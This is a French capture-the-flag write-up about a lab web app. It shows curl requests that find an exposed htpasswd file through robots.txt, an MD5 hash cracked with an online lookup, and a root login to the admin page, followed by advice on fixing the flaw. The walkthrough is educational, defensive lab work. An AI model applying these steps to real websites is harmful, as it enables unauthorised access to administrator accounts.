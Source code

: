 
---

# ROBOTS_WHATEVER

## Description de la faille

Une vulnérabilité a été découverte dans l'application web, permettant d'accéder à un fichier `.htpasswd` non sécurisé. En utilisant les informations de ce fichier, il est possible de se connecter à l'interface d'administration et d'obtenir un flag.

## Étapes pour découvrir la faille

1. **Observation des cookies** :
   - Utilisez `curl` pour envoyer une requête à l'application web :
     ```sh
     curl -I http://ip-addr/
     ```
   - Réponse :
     ```
     HTTP/1.1 200 OK
     Server: nginx/1.4.6 (Ubuntu)
     Date: Thu, 01 Aug 2024 11:34:23 GMT
     Content-Type: text/html
     Connection: keep-alive
     X-Powered-By: PHP/5.5.9-1ubuntu4.29
     Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Thu, 01-Aug-2024 12:34:23 GMT; Max-Age=3600
     ```

2. **Exploration du fichier `robots.txt`** :
   - Utilisez `curl` pour vérifier les directives du fichier `robots.txt` :
     ```sh
     curl http://ip-addr/robots.txt
     ```
   - Réponse :
     ```
     User-agent: *
     Disallow: /whatever
     Disallow: /.hidden
     ```

3. **Exploration du répertoire `/whatever`** :
   - Accédez au répertoire `/whatever` pour voir son contenu :
     ```sh
     curl http://ip-addr/whatever/
     ```
   - Réponse :
     ```html
     <html>
     <head><title>Index of /whatever/</title></head>
     <body bgcolor="white">
     <h1>Index of /whatever</h1><hr><pre><a href="../">../</a>
     <a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
     </pre><hr></body>
     </html>
     ```

4. **Accès au fichier `.htpasswd`** :
   - Téléchargez le fichier `.htpasswd` pour récupérer les informations d'authentification :
     ```sh
     curl http://ip-addr/whatever/htpasswd
     ```
   - Réponse :
     ```
     root:437394baff5aa33daa618be47b75cb49
     ```

5. **Déchiffrement du mot de passe** :
   - Passez le hash MD5 `437394baff5aa33daa618be47b75cb49` dans un outil de décryptage MD5 pour obtenir le mot de passe :
  
   - https://md5decrypt.net/
   - Mettre le hash et aller sur Decrypt.
     ```
     437394baff5aa33daa618be47b75cb49 = qwerty123@
     ```

6. **Accès à l'interface d'administration** :
   - Utilisez les informations d'authentification pour accéder à l'URL d'administration :
     ```sh
     http://ip-addr/admin
     ```
   - Connexion :
     ```
     Nom d'utilisateur : root
     Mot de passe : qwerty123@
     ```

7. **Obtention du flag** :
   - Une fois connecté à l'interface d'administration, le flag suivant est révélé :
     ```
     d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
     ```

## Flag

```
d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
```

## Recommandations pour corriger la faille

Pour corriger cette faille, voici quelques recommandations :

1. **Protéger les fichiers sensibles** : Assurez-vous que les fichiers comme `.htpasswd` ne sont pas accessibles publiquement.
2. **Configurer correctement les permissions du serveur** : Restreignez l'accès aux répertoires sensibles en utilisant des configurations de serveur appropriées.
3. **Utiliser des mots de passe sécurisés et non déchiffrables** : Utilisez des algorithmes de hachage sécurisés et des mots de passe complexes.
4. **Renforcer la sécurité de l'interface d'administration** : Implémentez des mesures de sécurité supplémentaires telles que l'authentification multifactorielle (MFA).

## Conclusion

Cette faille montre l'importance de sécuriser les fichiers et répertoires sensibles, ainsi que d'utiliser des mots de passe robustes et des configurations de serveur appropriées. En suivant les recommandations ci-dessus, la sécurité de l'application peut être significativement améliorée.

---
